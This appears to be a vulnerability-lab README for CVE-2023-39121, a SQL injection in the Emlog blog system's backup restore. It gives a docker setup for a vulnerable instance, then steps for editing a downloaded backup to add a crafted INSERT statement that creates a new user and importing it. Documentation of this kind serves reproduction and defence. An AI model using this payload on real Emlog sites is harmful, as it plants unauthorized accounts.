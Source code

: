 # Emlog data.php Background SQL Injection Vulnerability (CVE-2023-39121)

Emlog is an open-source blog system. This vulnerability exists in the data backup/restore functionality where improper input validation allows attackers to execute arbitrary SQL statements through specially crafted backup files.

Reference Links:

- <https://github.com/safe-b/CVE/issues/1#issue-1817133689>
- <https://www.emlog.net/docs/install/install_docker/>
- <https://hub.docker.com/layers/emlog/emlog/pro-latest-php7.4-apache/images/sha256-55bcc4861e1cc99ad79505be05ca3f3e5d9bb5dd16b8f2edc6ae62f7315cb8df>

## Vulnerability Environment

Execute the following command to start an Emlog 2.1.9 server:

```
docker compose up -d
```

After the environment starts, accessing `http://your-ip/install.php` will redirect to the installation page. Register a username and password, then complete the installation. After completion, log in to the admin management interface.

## Exploit Steps

1. Click: System → Data → Start Backup  
   ![Backup Start](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/1.png)

2. A SQL file will be downloaded  
   ![Downloaded SQL File](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/2.png)

3. Open the SQL file and add a malicious SQL statement (example: inserting a new user)

   ```sql
   INSERT INTO emlog_user VALUES('110','','$P$BnTaZnToynOoAVP6T/MiTsZc9ZAQNg.',(select user()),'writer','n','','123@qq.com','','','0','1687261845','1687261845');
   ```
   ![Modified SQL File](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/3.png)

4. Import the modified SQL file  
   ![SQL Import](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/4.png)

5. A new user appears, confirming successful SQL injection  
   ![New User Created](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/5.png)


